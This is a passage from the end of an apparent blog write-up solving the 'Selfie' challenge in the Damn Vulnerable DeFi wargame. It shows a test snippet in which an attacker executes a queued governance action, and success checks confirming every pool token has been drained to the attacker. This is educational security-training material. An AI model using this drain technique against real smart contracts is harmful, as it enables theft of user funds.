 ``` tsx
        await this.governance.connect(attacker).executeAction(
            await this.selfieExploit.actionId(), { value: 0 }
        );
    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // Attacker has taken all tokens from the pool
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.be.equal(TOKENS_IN_POOL);        
        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.be.equal('0');
    });
});
```

## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)


```toc
```